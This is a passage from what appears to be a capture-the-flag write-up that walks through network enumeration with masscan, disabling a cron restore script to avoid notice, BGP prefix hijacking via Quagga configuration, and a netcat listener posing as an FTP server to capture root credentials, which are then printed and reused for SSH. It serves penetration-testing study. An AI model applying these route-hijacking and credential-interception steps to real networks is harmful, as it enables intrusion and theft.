12: eth2@if13: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:20:98:df brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.11.1/24 brd 10.78.11.255 scope global eth2
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe20:98df/64 scope link 
       valid_lft forever preferred_lft forever
```

```bash
route -n
```
```
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.99.64.1      0.0.0.0         UG    0      0        0 eth0
10.78.10.0      0.0.0.0         255.255.255.0   U     0      0        0 eth1
10.78.11.0      0.0.0.0         255.255.255.0   U     0      0        0 eth2
10.99.64.0      0.0.0.0         255.255.255.0   U     0      0        0 eth0
10.100.10.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.11.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.12.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.13.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.14.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.15.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.16.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.17.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.18.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.19.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.20.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.120.10.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.11.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.12.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.13.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.14.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.15.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.16.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.17.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.18.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.19.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.20.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
```

These networks correspond to the diagram we found before with the ASes:


```quagga```<sup>[4]</sup> is routing software that runs on *nix platforms.  If we look at its BGP configuration in ```/etc/quagga/bgpd.conf```:
```
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
```
We see that 10.78.10.2 (eth1) is for AS200 and 10.78.11.2 (eth2) is for AS300.  In order to figure out where to go next, we need to do some more enumeration.

There are no scanners such as nmap on the box that we can use.  The way I chose to solve this problem was to statically build a port scanner called masscan<sup>[5]</sup> that is built to scan ranges quickly.  When you statically build an application, you package all of its dependencies with the binary itself.  That means that if you copy the binary to a system that does not have the dependencies of the application installed, that is okay.  It will use the versions built into it.  It is as if you make the application portable.

I could statically compile a scanner like nmap if you would like, but I chose masscan because it is small, easy to build, and does what I need it to do in this instance.  There are links in the References section to github repositories that have instructions for statically building nmap.

Building masscan on our Linux box is really easy:
```bash
# These instructions come from the repo.
sudo apt install git gcc make libpcap-dev
git clone https://github.com/robertdavidgraham/masscan
cd masscan
make
```

One big difference between ```masscan``` and ```nmap``` is that ```masscan``` does not have a default list of ports to scan, and for TCP scanning, it only does SYN scans.  For our needs, that is fine.  I will scan the first 1024 ports since most common services live there.  We will scan all of the ranges we can talk to for those ports and UDP 161 in case there are any more SNMP hosts out there.

There are only two ranges in the routing table that had live boxes according to our scans:
```
10.99.64.0/24
10.120.15.0/24 (according to the tickets we saw in the dashboard, there is an "important" FTP server in here)
```

The syntax we will use for ```masscan``` is as follows:
```bash
masscan -p 1-1024 -pU:161 --rate 10000 <subnet>

```
```
Starting masscan 1.0.6 (http://bit.ly/14GZzcT) at 2018-10-13 23:11:18 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [1025 ports/host]
Discovered open port 80/tcp on 10.99.64.251                                    
Discovered open port 22/tcp on 10.99.64.3                                      
Discovered open port 22/tcp on 10.99.64.1                                      
Discovered open port 179/tcp on 10.99.64.3                                     
Discovered open port 21/tcp on 10.99.64.1                                      
Discovered open port 53/tcp on 10.99.64.1                                      
Discovered open port 179/tcp on 10.99.64.4                                     
Discovered open port 22/tcp on 10.99.64.4                                      
Discovered open port 22/tcp on 10.99.64.251
```
```
Starting masscan 1.0.6 (http://bit.ly/14GZzcT) at 2018-10-13 23:34:12 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [1025 ports/host]
Discovered open port 21/tcp on 10.120.15.10                                    
Discovered open port 22/tcp on 10.120.15.1                                     
Discovered open port 22/tcp on 10.120.15.10                                    
Discovered open port 179/tcp on 10.120.15.1                                    
Discovered open port 53/tcp on 10.120.15.10
```

It looks like the "important" FTP server lives on 10.120.15.10.  After a bunch of enumeration, I could not find any credentials on the box we are on that would enable access anywhere else.  We are on a box that advertises routes to other boxes, so we may be able to change the routes it advertises to steer traffic to us.  Perhaps we can change the routing so that when users try to login to the FTP server, we can intercept it.

To change the route, we will advertise a smaller prefix and point it at our box.  Because we will be advertising a smaller prefix, our box will be preferred over other boxes advertising a route that covers the same range but is larger.  We will advertise that we are a route for 10.120.15.8/30.  A /30 means 2^(32-30) = 2^2 = 4 total IPs.  I wanted the smallest possible IP range that overlapped with our target IP (10.120.15.10).  Two IPs are reserved by the network: one for the network ID (10.120.15.8) and one for the broadcast address (10.120.15.11).  That means we have 10.120.15.9 and 10.120.15.10 for hosts.

To advertise the "new" network, we need to modify ```/etc/quagga/bgpd.conf```.  Before we do that, we need to take care of a script that is reverting that configuration file.  While I was doing recon, I noticed the following cron job:
```bash
crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/10 * * * * /opt/restore.sh
```

```bash
cat /opt/restore.sh
```
```bash
#!/bin/sh
systemctl stop quagga
killall vtysh
cp /etc/quagga/zebra.conf.orig /etc/quagga/zebra.conf
cp /etc/quagga/bgpd.conf.orig /etc/quagga/bgpd.conf
systemctl start quagga
```

There are a number of ways to deal with this: move ```/opt/restore.sh``` to another place, replace ```/opt/restore.sh``` with a benign script, or edit the crontab to not execute the script at all.  My choice was to move the script to ```/opt/restore.sh.bak``` and make a new script that does nothing and put in place of ```/opt/restore.sh```.  This will prevent error logs from being generated if ```/opt/restore.sh``` is not found, and it should fool shallow attempts to determine if the script ran.

```bash
mv /opt/restore.sh /opt/restore.sh.bak
echo "#!/bin/sh" > /opt/restore.sh
```

Now, let's edit ```/etc/quagga/bgpd.conf```.  I added a third network line for our "new" network:
```
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 network 10.120.15.8/30
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
```

I made the change by creating a local file and uploading to the target by setting up an HTTP server on my local box.  We also have to add the IP to our eth2 interface so that when someone tries to login to the FTP server, our target will accept the connection.  If we did not have the correct IP (10.120.15.10), our target would get the packets and not know what to do with them and drop them.  To add the address to the interface:

```bash
ip addr add 10.120.15.10/30 broadcast 10.120.15.11 dev eth2
```

Now, we will pretend we are an FTP server an listen for incoming FTP connections.  In real life, we would probably have a script do this, but for this exercise, we will be the FTP server.  When we get a connection, we will send a 220 message which means that the server is ready.  The client should then send its user name, and we will respond with a 331 which means that a password is required.  The client will then send their password.  Let's set up the listener:
```bash
# -vvlp says to be extra verbose (vv), listen (l), on a specified port (p).  Since the port for FTP control is TCP 21, we will listen on 21.
nc -vvlp 21
```

After waiting a few minutes we get a connection.  Once we send our 220 message, we get a username of root.  Then, we send our 331 message and get a password:


We get the following credentials: ```root / BGPtelc0rout1ng```.  Since we have not interacted with SSH yet, these may be SSH credentials.  Let's try them:

Looks like it worked!

We can find the root flag and "secretdata" in root's home directory:



## References
[1]: https://kb.paessler.com/en/topic/653-how-do-snmp-mibs-and-oids-work "How do SNMP, MIBs, and OIDs work? Paessler Knowledge Base"
[2]: https://community.helpsystems.com/knowledge-base/intermapper/snmp/snmp-community-strings/ "What is an SNMP Community String?"
[3]: https://www.dpstele.com/snmp/what-does-oid-network-elements.php "What is the SNMP OID?"
[4]: http://www.nongnu.org/quagga/ "Quagga Software Routing Suite"
[5]: https://github.com/robertdavidgraham/masscan "masscan"
[6]: https://github.com/andrew-d/static-binaries "static-binaries: Various *nix tools built as statically-linked binaries"
[7]: https://github.com/ernw/static-toolbox/ "static-toolbox: A collection of statically compiled tools like Nmap and socat"
[8]: https://www.ncftp.com/libncftp/doc/ftp_overview.html "An Overview of the File Transfer Protocol"

  * [How do SNMP, MIBs, and OIDs work? Paessler Knowledge Base](https://kb.paessler.com/en/topic/653-how-do-snmp-mibs-and-oids-work)
  * [What is an SNMP Community String?](https://community.helpsystems.com/knowledge-base/intermapper/snmp/snmp-community-strings/)
  * [What is the SNMP OID?](https://www.dpstele.com/snmp/what-does-oid-network-elements.php)
  * [Quagga Software Routing Suite](http://www.nongnu.org/quagga/)
  * [masscan](https://github.com/robertdavidgraham/masscan)
  * [static-binaries: Various *nix tools built as statically-linked binaries](https://github.com/andrew-d/static-binaries)
  * [static-toolbox: A collection of statically compiled tools like Nmap and socat](https://github.com/ernw/static-toolbox/)
  * [An Overview of the File Transfer Protocol](https://www.ncftp.com/libncftp/doc/ftp_overview.html)
